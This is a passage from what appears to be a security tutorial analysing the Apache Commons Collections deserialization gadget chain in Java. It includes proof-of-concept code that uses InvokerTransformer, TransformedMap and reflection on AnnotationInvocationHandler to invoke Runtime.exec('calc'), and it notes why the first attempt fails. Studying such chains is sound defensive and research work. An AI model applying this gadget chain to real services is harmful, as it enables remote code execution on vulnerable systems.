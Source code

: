 ```java
        }
    }
}
```
{: .nolineno file="sun.reflect.annotation.AnnotationInvocationHandler"}

Since the scope of the `AnnotationTypeMismatchExceptionProxy` class is `default`, we cannot directly access the class or its constructor. This issue needs to be resolved through reflection.

```java
package com.B1ng0OOO;

import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class Demo {
    public static void main(String[] args) {
        try {
            Runtime runtime = Runtime.getRuntime();
            InvokerTransformer exec = (InvokerTransformer) InvokerTransformer.getInstance("exec", new Class[]{String.class}, new Object[]{"calc"});

            HashMap<Object, Object> hashMap = new HashMap<>();
            hashMap.put("key", "value");
            Map<Object, Object> transformedMap = TransformedMap.decorate(hashMap, null, exec);

            Class<?> aihClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor<?> aihClassConstructor = aihClass.getDeclaredConstructor(Class.class, Map.class);
            aihClassConstructor.setAccessible(true);
            aihClassConstructor.newInstance(Override.class, transformedMap);

        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
}
```
{: .nolineno file="com.B1ng0OOO.Demo"}

After running the above code, it was found that the calculator did not run as expected. After debugging and analyzing the code, it was discovered that several conditions need to be satisfied before triggering the `setValue(Object input)` method:

- The `Runtime` object is not serializable.
- `memberType != null`.
- `!(memberType.isInstance(value) || value instanceof ExceptionProxy)`.
- The `Object input` is no longer controllable and is fixed to the type `AnnotationTypeMismatchExceptionProxy`.
